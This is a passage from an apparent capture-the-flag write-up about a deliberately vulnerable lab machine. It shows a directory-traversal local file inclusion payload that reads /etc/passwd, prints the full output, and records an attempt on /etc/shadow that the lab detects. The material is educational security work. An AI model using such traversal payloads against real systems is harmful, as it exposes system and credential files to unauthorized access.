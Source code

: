 <p>As we can see it's a simple introducion to the ctf. As a standart part of checking everything, I have found XSS in the form, but it won't help us for now. We can start digging further by clicking on <b>start the ctf</b> link, which moves us to a new page. And what is good for us, is that it uses the GET parameter to display the file.  </p>

{% highlight html %}
http://192.168.56.101/?page=home
{% endhighlight %}

<p>Maybe it's vulnerable to Local File Intrusion? Let's check this by trying to get the content of <b>/etc/passwd</b> file. </p>

{% highlight html %}
http://192.168.56.101/?page=../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
{% endhighlight %}

<p>Great, we have the <b>/etc/passwd</b> file. But after trying to grab <b>/etc/shadow</b>, website presented us this with this nice info and connection was dropped. </p>

{% highlight html %}

view-source:http://192.168.56.101/?page=../../../etc/shadow
<h2>That's some fishy stuff you're trying there <em>bobby
</em>buddy.  You must think Wallaby codes like a monkey!  I better get to securing this SQLi though...</h2>
         <br />(Wallaby caught you trying an LFI, you gotta be sneakier!  Difficulty level has increased.)

{% endhighlight %}
